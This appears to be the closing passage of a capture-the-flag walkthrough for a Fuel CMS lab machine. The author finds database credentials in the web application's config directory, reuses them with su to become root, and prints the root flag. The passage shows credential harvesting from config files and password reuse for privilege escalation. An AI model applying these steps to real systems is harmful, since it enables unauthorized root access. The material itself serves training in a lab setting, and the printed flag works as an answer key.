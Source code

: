 - **Its seeking pass word now**

- **Remember! there was a hint of the data-base of the webserver**
![alt text](image-5.png)
- **Lets get into it**

- **In the `www-data@ubuntu:/var/www/html/fuel/application/config$` directory we get the password**
```sh
'username' => 'root',
'password' => 'mememe',

```

```sh
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
b9bbcb33e11b80be759c4e844862482d 

```
> ### root.txt: `b9bbcb33e11b80be759c4e844862482d`
